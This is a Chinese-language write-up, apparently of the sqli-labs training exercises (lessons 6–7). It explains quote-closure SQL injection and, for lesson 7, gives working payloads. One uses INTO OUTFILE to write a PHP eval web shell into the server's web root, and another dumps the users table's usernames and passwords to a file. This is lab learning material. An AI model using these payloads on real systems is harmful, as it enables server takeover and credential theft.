 当然也可以用 `limit` 来挨个输出。

### lesson 6

和 lesson 5 相似, 不过改用双引号 `"` 来闭合。遇到 `1'` 和 `1` 都不报错时, 可以尝试用双引号闭合, 后续步骤一致, 略过。

### lesson 7

首先还是输入判断类型, 可以发现是存在无回显的字符型注入, 不过这次不再返回具体的错误, 只返回错误提醒。

![s7-1.png](s7-1.png)

继续尝试发现闭合条件为: `?id=1')) --+` ;使用 `order by` 可以发现当前表的列数为 3 。

#### 读写文件注入

界面上有提示:"use outfile...", 尝试读写服务器文件:

>   常用的函数:
>   -   `into outfile()`    写入本地文件
>   -   `into dumpfile()`   写入本地文件并保留一定格式
>   -   `load_file()`       读取文件

写入木马:

```url
?id=-1')) UNION SELECT 1,2,'<?php @eval($_POST["cmd"]);?>' into outfile "D:\\phpstudy_pro\\WWW\\sqli\\Less-7\\shell.php"--+
```

![s7-2.png](s7-2.png)

写入成功。

用同样的方式尝试查询库名, 表名, 列名, 这里省略, 最后拖出 `users` 表:

```url
?id=1')) UNION SELECT 1,group_concat(username,':',password),3 FROM users INTO OUTFILE "D:\\phpstudy_pro\\WWW\\sqli\\Less-7\\data.txt"--+
```
